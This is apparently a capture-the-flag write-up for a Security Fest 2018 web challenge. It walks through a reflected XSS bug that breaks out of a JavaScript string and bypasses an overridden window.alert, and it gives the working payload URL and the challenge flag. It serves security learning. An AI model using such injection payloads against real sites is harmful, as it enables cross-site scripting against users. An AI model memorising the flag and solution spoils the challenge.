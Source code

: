 # Excess
Category: `web`

Description: `This is some kind of reverse captcha to tell if the visitor is indeed a robot. Can you complete it?`

Service: `http://xss1.alieni.se:2999/`

Author: `avlidienbrunn`

Points: `51`

### How to Solve
![Main website](/2018/security_fest/img/excess/main.png)

The website provides a link to `http://xss1.alieni.se:2999/?xss=hello` but the link looks the same as the website. Here is the page source:

```html
<!DOCTYPE html>
<html lang="en">
  <head>
      <meta charset="UTF-8">
      <meta name="viewport" user-scalable="no" content="width=device-width, initial-scale=1">
      <link rel="stylesheet" href="/static/style.css" />
      <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>
      <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>
      <link rel="stylesheet" href="https://netdna.bootstrapcdn.com/bootstrap/3.3.2/css/bootstrap.min.css" />
      <link rel="stylesheet" href="https://cdnjs.cloudflare.com/ajax/libs/mdbootstrap/4.3.0/css/mdb.min.css" />
  </head>
  <body>
      <script src="/static/no_alert_for_you.js"></script><section class="login-info">
<div class="container">
  <script>var x ='hello'; var y = `hello`; var z = "hello";</script>
  <div class="row main">
       <div class="form-header header">
          <h1 class="text-center ">Excess Ess</h1>
        </div>
    <div class="main-content">
          <div class="row" id="container">
            <hr>
            <h4 class="text-center black-text">Make alert(1) pop <a href="/?xss=hello">here</a> and submit the working URL in the form below.</h4>
          </div>
          <form method="post" action="/submit">
          <div class="input-group ">
            <span class="input-group-addon"><span class="glyphicon glyphicon-paperclip" aria-hidden="true"></span></span>
            <input type="text" class="form-control text-center" name="url" placeholder="URL that pops alert(1) without user interaction">
          </div>
          
          <div class="form-group ">
          <center>
              <input type="submit" value="submit" name="login" class="btn btn-green header btn-lg btn-block login-button"/>
              </center>
          </div>

          </form>
          
          <div class="form-group" id="container">
          </div>
      
      </div>
    </div></body></html>
```

The GET parameter `xss` controls the variable declared in a script tag in the page.

```html
<script>var x ='hello'; var y = `hello`; var z = "hello";</script>
```

Browsing to `http://xss1.alieni.se:2999/?xss='; alert(1); '` shows a prompt instead.

![Initial payload](/2018/security_fest/img/excess/initial_payload.png)

The page source indicates that the script was successfully injected.

```html
<script>var x =''; alert(1); ''; var y = `'; alert(1); '`; var z = "'; alert(1); '";</script>
```

After looking closely at the page source, there is a javascript file defined before the payload.

```html
<script src="/static/no_alert_for_you.js"></script>
```

The file `no_alert_for_you.js` overrides the `window.alert` function to a prompt.

```javascript
/*

        If there is no alert,
            how can there be XSS?
                      /
                     /
            )            (
           /(   (\___/)  )\
          ( #)  \ ('')| ( #
           ||___c\  > '__||
           ||**** ),_/ **'|
     .__   |'* ___| |___*'|
      \_\  |' (    ~   ,)'|
       ((  |' /(.  '  .)\ |
        \\_|_/ <_ _____> \______________
         /   '-, \   / ,-'      ______  \
b'ger   /      (//   \\)     __/     /   \
                            './_____/

*/
window.alert = (x=>prompt("He confirm. He alert. But most of all he prompt."));
```

We can restore `window.alert` to the default alert function by using the alert function of another window. In this case, we are using the alert function of a new window.

_Note: You may need to enable pop-up._ 

```javascript
window.alert = window.open().alert;
```

Using `alert(1)` will create a pop-up in the new window. Thus, we will use `window.alert(1)` to create a pop-up in the main window instead. Here is the final payload:

```
'; window.alert = window.open().alert; window.alert(1); '
```

Browse to the following link to test our payload:

```
http://xss1.alieni.se:2999/?xss='; window.alert = window.open().alert; window.alert(1); '
```

![Final payload](/2018/security_fest/img/excess/final_payload.png)

Enter the link to get the flag.

![Flag](/2018/security_fest/img/excess/flag.png)

**Flag: `sctf{cr0ss_s1te_n0scr1ptinG}`**